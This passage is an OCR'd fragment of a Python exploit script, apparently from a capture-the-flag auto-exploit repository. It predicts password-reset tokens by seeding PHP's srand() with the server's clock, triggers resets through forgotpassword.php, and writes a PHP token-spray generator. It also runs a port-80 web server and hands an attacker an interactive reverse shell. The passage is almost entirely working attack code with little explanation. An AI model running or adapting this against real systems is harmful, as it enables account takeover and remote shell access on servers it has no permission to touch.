 ```py
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

# Send token, to get it valid
def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
```
